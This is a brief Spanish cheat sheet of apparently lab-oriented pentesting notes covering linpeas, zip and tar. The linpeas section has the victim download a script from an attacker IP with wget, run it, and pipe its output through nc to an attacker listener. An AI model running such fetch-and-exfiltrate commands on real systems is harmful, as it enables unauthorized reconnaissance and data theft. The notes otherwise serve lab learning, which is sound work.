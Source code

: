 ## Linpeas

Para que analices en la maquina atacante

```
# Victima
wget 10.10.14.80:8080/linpeas.sh
./linpeas.sh |  nc 10.10.14.80 9002

# Atacante
nc -lvnp 9002 | tee linpeas.out 

```
## Zip

Para comprimir un archivo o carpeta usa

```
zip -r socat.zip socat/
```
Recuerda para comprimir un archivo pues quita la r

```
unzip mi_carpeta.zip
```

## Tar

Para comprimir un archivo con esta herramienta 

```
tar -zcvf /var/tmp/masa_out.gz /var/www/html
###
tar.gz
-z: La opción que indica a tar que debe usar gzip para comprimir el archivo.
-c: La opción que indica a tar que debe crear un nuevo archivo.
-v: La opción "verbose" que proporciona una salida detallada durante el proceso.
-f: La opción que permite especificar el nombre del archivo tar que se creará.

```
Para descomprimir 

```
tar -zxvf masa_out -C /directorio/out
###
-z: La opción que indica a tar que el archivo está comprimido con gzip y debe descomprimirse durante la extracción.
-x: La opción que indica a tar que debe extraer archivos del archivo tar.
-v: La opción "verbose" que proporciona una salida detallada durante el proceso.
-f: La opción que permite especificar el nombre del archivo tar del cual se extraerán los archivos. Debe ir seguido del nombre del archivo.

```
